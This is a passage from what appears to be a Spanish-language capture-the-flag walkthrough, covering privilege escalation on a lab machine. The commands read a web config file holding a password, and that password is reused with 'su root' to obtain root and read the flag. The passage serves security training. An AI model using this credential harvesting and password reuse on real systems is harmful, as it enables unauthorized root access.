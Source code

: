 ## Privilege Escalation {-}

### Rootear la maquina {-}

```bash
id
ls -la /var/www/html
cat /var/www/html/config.php
```

Aqui encontramos una contraseña. Intentamos ponerla para root

```bash
su root
Password: uhc-9qual-global-pw

whoami

#Output
root
```

Ya somos root y podemos leer la flag.
